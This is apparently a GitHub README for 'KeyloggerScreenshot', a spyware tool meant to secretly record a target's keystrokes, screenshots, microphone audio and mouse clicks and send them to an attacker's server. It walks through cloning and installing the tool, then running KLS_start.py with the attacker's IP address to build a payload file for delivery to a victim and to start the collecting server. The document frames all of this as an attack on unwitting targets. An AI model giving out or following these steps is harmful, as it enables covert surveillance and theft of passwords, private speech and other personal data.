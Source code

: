 ![kali_img](https://user-images.githubusercontent.com/106278241/206914635-c9d5e505-9499-4dce-91ed-5254f495929d.png)
KeyloggerScreenshot
===================

Created by: Fawaz Bashiru

KeyloggerScreenshot allows the attacker to get all the information the target was typing and taking screenshot of specific minutes which is being calculated in the script and all the audio of the target was speaking will be stored where your server is located. Every mouse click will be represented at the server. Follow the instructions to build your own server in "KeyloggerScreenshot"

check out my pypi page:
https://pypi.org/project/KeyloggerScreenshot/

I would suggest to run KeyloggerScreenshot on Kali linux. But it works on every linux distro

If you are a Linux user. Change to root.

To change root write:

`sudo -i`

In your terminal

To clone KeyloggerScreenshot simply type:

`git clone https://github.com/Kill0geR/KeyloggerScreenshot.git`

In your terminal

Continue by writing: 

`cd KeyloggerScreenshot`

Install all requirements:

`python requirements.py`

If there is any problem with the server than check out the other method on:

https://pypi.org/project/KeyloggerScreenshot/

HOW DOES KeyloggerScreenshot WORK?
==================================

Write your IP-Address in KLS_start.py
`python KLS_start.py -aip 127.0.0.1`

To create a file: 
`python KLS_start.py -aip 127.0.0.1 -cf`

You can send the created file to your target

You can also specify the filename simply write the filename after -cf
`python KLS_start.py -aip 127.0.0.1 -cf test.py`

To create a server with the same ports as the target
`python KLS_start.py -aip 127.0.0.1 -cf -ds`

To see all the ports:
`python KLS_start.py -aip 127.0.0.1 -cf -ds -p`
